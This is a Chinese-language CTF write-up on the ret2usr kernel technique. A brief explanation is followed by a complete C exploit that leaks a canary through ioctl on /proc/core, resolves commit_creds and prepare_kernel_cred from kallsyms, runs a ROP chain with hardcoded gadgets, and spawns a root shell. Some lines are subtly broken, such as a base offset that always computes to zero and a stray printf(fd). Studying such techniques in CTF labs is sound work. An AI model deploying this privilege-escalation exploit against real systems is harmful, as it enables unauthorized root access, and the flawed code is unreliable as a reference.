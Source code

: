 # Items
[2018 core](./2018_core)
ret2usr 攻击利用了 用户空间的进程不能访问内核空间，但内核空间能访问用户空间 这个特性来定向内核代码或数据流指向用户控件，以 ring 0 特权执行用户空间代码完成提权等操作。
## 0x00 ret2user(no SMEP/SMAP)
ret2usr 攻击利用了 用户空间的进程不能访问内核空间，但内核空间能访问用户空间 这个特性来定向内核代码或数据流指向用户控件，以 ring 0 特权执行用户空间代码完成提权等操作。
我这里的自我理解那就是，在用户态定义了函数调用，然后我们在内核态的时候通过ROP等手法时期直接执行在用户态的代码，这样就实现了在内核态ring0的特权来执行用户代码，实际上还蛮简单的，虽然说这个利用手法在KPTI出现之后很少利用了，但是我毕竟还是刚学，所以还是得了解点的。

---
综上，所以咱们只需要在exp中添加这样一段代码即可：
```
void getRootPrivilige(void){
  void *(*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
  int (*commit_creds_ptr)(void *) = commit_creds;
  (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}
```
这里也就是在咱们获得这俩兄弟的地址后在用户程序定义的函数调用，所以咱们只需在ROP中添加这个函数地址使其调用然后通过SWAPGS等系统调用返回用户态即可，以下是成功图！
(是不是很像上此文章的图，兄弟们你们听我狡辩啊不是听我解释，这我真的重新运行的，大伙别说我偷懒)
![](http://imgsrc.baidu.com/super/pic/item/aa64034f78f0f73662139cc34f55b319eac41307.jpg)
1. 通过读取 /tmp/kallsyms 获取 commit_creds 和 prepare_kernel_cred 的方法相同，同时根据这些偏移能确定 gadget 的地址。
2. leak canary 的方法也相同，通过控制全局变量 off 读出 canary。
3. 与 kernel rop 做法不同的是 rop 链的构造:
   > 1. kernel rop 通过 内核空间的 rop 链达到执行 commit_creds(prepare_kernel_cred(0)) 以提权目的，之后通过 swapgs; iretq 等返回到用户态，执行用户空间的 system("/bin/sh") 获取 shell
    > 2. ret2usr 做法中，直接返回到用户空间构造的commit_creds(prepare_kernel_cred(0)) （通过函数指针实现）来提权，虽然这两个函数位于内核空间，但此时我们是 ring 0 特权，因此可以正常运行。之后也是通过 swapgs; iretq 返回到用户态来执行用户空间的 system("/bin/sh")
    

从这两种做法的比较可以体会出之所以要 ret2usr，是因为一般情况下在用户空间构造特定目的的代码要比在内核空间简单得多。（但是据我现在了解最不怕的就是他了(狗头)）
以下是exp：
```
// gcc exp.c -o exp -static -masm=intel -g
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/ioctl.h>

size_t commit_creds = NULL, prepare_kernel_cred = NULL;        // address of to key function
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RDI_RET 0xffffffff81000b2f  
#define POP_RCX_RET 0xffffffff81021e53
#define IRETQ 0xffffffff81050ac2 
size_t user_cs, user_ss,user_rflags,user_sp;

//int fd = 0;        // file pointer of process 'core'

/*void saveStatus();
void get_function_address();
#void core_read(int fd, char* buf);
void change_off(int fd, long long off);
void core_copy_func(int fd, long long nbytes);
void print_binary(char* buf, int length);
void shell();
*/
void saveStatus(){
  __asm__("mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          );
  puts("\033[34m\033[1m Status has been saved . \033[0m");
}


void getRootPrivilige(void){
  void *(*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
  int (*commit_creds_ptr)(void *) = commit_creds;
  (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}
void core_read(int fd, char *addr){
  printf("try read\n");
  ioctl(fd,0x6677889B,addr);
  printf("read done!");
}

void change_off(int fd, long long off){
  printf("try set off \n");
  ioctl(fd,0x6677889C,off);
}

void core_copy_func(int fd, long long nbytes){
  puts("try cp\n");
  ioctl(fd,0x6677889A,nbytes);
}

void get_function_address(){
        FILE* sym_table = fopen("/tmp/kallsyms", "r");        // including all address of kernel functions,just like the user model running address.
        if(sym_table == NULL){
                printf("\033[31m\033[1m[x] Error: Cannot open file \"/tmp/kallsyms\"\n\033[0m");
                exit(1);
        }
        size_t addr = 0;
        char type[0x10];
        char func_name[0x50];
        // when the reading raises error, the function fscanf will return a zero, so that we know the file comes to its end.
        while(fscanf(sym_table, "%llx%s%s", &addr, type, func_name)){
                if(commit_creds && prepare_kernel_cred)                // two addresses of key functions are all found, return directly.
                        return;
                if(!strcmp(func_name, "commit_creds")){                // function "commit_creds" found
                        commit_creds = addr;
                        printf("\033[32m\033[1m[+] Note: Address of function \"commit_creds\" found: \033[0m%#llx\n", commit_creds);
                }else if(!strcmp(func_name, "prepare_kernel_cred")){
                        prepare_kernel_cred = addr;
                        printf("\033[32m\033[1m[+] Note: Address of function \"prepare_kernel_cred\" found: \033[0m%#llx\n", prepare_kernel_cred);
                }
        }
}


void shell(){
        if(getuid()){
                printf("\033[31m\033[1m[x] Error: Failed to get root, exiting......\n\033[0m");
                exit(1);
        }
        printf("\033[32m\033[1m[+] Getting the root......\033[0m\n");
        system("/bin/sh");
        exit(0);
}

int main(){
  saveStatus();
  int fd = open("/proc/core",2);              //get the process fd
  if(!fd){
                printf("\033[31m\033[1m[x] Error: Cannot open process \"core\"\n\033[0m");
                exit(1);
        }
  char buffer[0x100] = {0};
        get_function_address();                // get addresses of two key function
  ssize_t vmlinux = commit_creds - commit_creds;            //base address
  printf("vmlinux_base = %x",vmlinux);
  //get canary 
  size_t canary;
  change_off(fd,0x40);
  getchar();
  printf(fd);
  core_read(fd,buffer);
  canary = ((size_t *)buffer)[0];
  printf("canary ==> %p\n",canary);
  //build the ROP
  size_t rop_chain[0x1000] ,i= 0;
  printf("construct the chain\n");
  for(i=0; i< 10 ;i++){
    rop_chain[i] = canary;
  }
  rop_chain[i++] = (size_t)getRootPrivilige; 
  rop_chain[i++] = SWAPGS_POPFQ_RET + vmlinux;
  rop_chain[i++] = 0;
  rop_chain[i++] = IRETQ + vmlinux;
  rop_chain[i++] = (size_t)shell;
  rop_chain[i++] = user_cs;
  rop_chain[i++] = user_rflags;
  rop_chain[i++] = user_sp;
  rop_chain[i++] = user_ss;
  write(fd,rop_chain,0x800);
  core_copy_func(fd,0xffffffffffff0100); 
}
```
